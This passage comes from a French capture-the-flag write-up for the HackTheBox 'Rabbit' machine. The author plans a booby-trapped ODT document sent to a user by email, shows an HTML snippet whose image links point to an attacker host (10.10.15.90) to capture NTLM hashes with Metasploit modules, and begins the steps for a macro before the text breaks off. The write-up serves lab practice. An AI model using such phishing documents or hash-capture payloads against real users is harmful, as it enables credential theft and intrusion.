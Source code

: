 APT 101
-------

Une fois connecté sur le webmail (par exemple avec *Ariel*) on voit que quelqu'un attend de recevoir son rapport *TPS* (kezako ? aucune importance).  

![HackTheBox Rabbit TPS report email](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/rabbit_tps_reports_mail.jpg)

Il y a aussi deux emails, l'un pour indiquer que l'entreprise est passée à *Open Office*, l'autre pour indiquer la sécurisation des systèmes avec Windows Defender et le passage de Powershell en mode *Constrained Language* (voir [ici](https://blogs.msdn.microsoft.com/powershell/2017/11/02/powershell-constrained-language-mode/)).  

Les indices sont donc assez explicites et on va devoir envoyer un document ODT piégé à l'un des utilisateurs afin d'obtenir un shell.  

La première chose que j'ai essayé c'est l'inclusion de référence à des documents distants dans le document. C'est la même technique qui peut servir [à désanonymiser des utilisateurs de Tor](http://devloop.users.sourceforge.net/index.php?article131/les-questions-cons-du-hacking-comment-desanonymiser-un-utilisateur-de-tor).  

Pour cela on crée d'abord un fichier HTML :  

```plain
<html>
<body>
<img src="file://///10.10.15.90/share/img.png" />
<img src="http://10.10.15.90/nawak/img.png" />
</body>
</html>
```

que l'on intègre ensuite dans un document ODT (LibreOffice/OpenOffice Writer) via *Insert > Text from file* (visiblement ça a changé et oui c'est pas parlant du tout...)  

On aura préalablement lancé deux modules *Metasploit* à savoir *auxiliary/server/capture/smb* et *auxiliary/server/capture/http\_ntlm*.  

On attend un peu... et force est de constater que rien ne s'est passé :p   

On passe alors à l'option Macros : on crée un nouveau document ODT puis on va sur *Tools > Macros > Edit Macros* :  

Il faut ensuite :  

1. Aller sur l'icône Modules
2. Aller sur l'entrée *Standard* sous le nom de notre document
3. Créer un nouveau module
